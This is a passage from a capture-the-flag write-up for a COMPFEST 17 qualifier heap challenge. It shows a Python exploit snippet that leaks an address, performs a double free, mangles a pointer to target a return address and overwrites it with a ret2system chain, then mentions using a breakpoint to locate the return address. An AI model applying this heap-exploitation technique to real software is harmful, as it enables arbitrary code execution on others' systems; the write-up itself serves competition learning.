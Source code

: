 ![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/AllinBins.png)


I also clean the bins. After leaking the address then using `house of plastic` double free and targeting to ret address to be overwrite it to ret2system.

```python
for i in range(10):
    alloc(1 + i, 0x38, b"A")
for i in reversed(range(7)):
    free(1 + i)
free(8)
free(9)
free(8) # Double free
for i in range(7):
    alloc(1 + i, 0x38, b"A")
alloc(8, 0x38, p64(mangle(heap, ret - 8)))
alloc(9, 0x38, b"A")
alloc(9, 0x38, b"A")
alloc(9, 0x38, p64(0) + ret2system())
menu(4)
```

For finding the return address we can just set breakpoint at `ret` instruction.

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/BreakRet.png)
